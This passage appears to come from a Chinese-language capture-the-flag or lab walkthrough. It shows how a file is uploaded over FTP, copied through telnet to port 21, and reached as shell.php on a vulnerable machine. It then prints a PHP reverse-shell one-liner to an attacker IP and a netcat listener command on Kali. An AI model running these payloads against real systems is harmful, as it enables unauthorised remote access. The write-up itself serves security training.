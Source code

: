 通过`ftp`连接后上传，然后再通过`telnet`连接21端口，进行复制

![](./pic-joy/28.jpg)

可以看到有了，说明成功

![](./pic-joy/29.jpg)

访问`shell.php`后，尝试了`bash、nc`的几种反弹`shell`无效后，使用`php`

```shell
php -r '$sock=fsockopen("192.168.10.6",9999);exec("bash <&3 >&3 2>&3");'
```

先在`kali`开启监听

```shell
nc -lvnp 9999
```

这时候执行上面的`php`语句即可反弹成功
